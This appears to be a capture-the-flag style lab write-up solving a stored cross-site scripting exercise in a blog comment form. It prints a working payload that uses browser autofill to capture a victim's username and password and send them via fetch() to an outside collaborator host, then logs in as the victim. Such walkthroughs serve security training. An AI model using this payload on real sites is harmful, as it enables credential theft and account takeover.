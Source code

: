 # Lab: Exploiting cross-site scripting to capture passwords

> Lab Objective: exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

- Firstly, Enter simple input like this `test'"><` in Blog Comment functionality, then search for the input in the Source Code.
  ![1st Screenshot](./Photos/1.png)

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing page source code, I've noticed that the comment input field is the only field where these `'"><` characters are interpreted normally, while the other input fields the previous characters are html encoded.
  ![2nd Screenshot](./Photos/2.png)

- Therefore, I'll inject `<script>alert(0)</script>` in the comment input field.
  ![3rd Screenshot](./Photos/3.png)

- The `alert(0)` function is executed successfully.
  ![4th Screenshot](./Photos/4.png)

- In order to exfiltrate the victim's username and password, I'll use the Browser's autofill functionality.

- So The payload will be like this:

```html
<input name="username" id="username" />
<input
  type="password"
  name="password"
  onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

- When submitting the comment, the credentials is sent to the collaborator
  ![6th Screenshot](./Photos/6.png)

- Login with those credentials, and the lab is solved.
  ![7th Screenshot](./Photos/7.png)

---

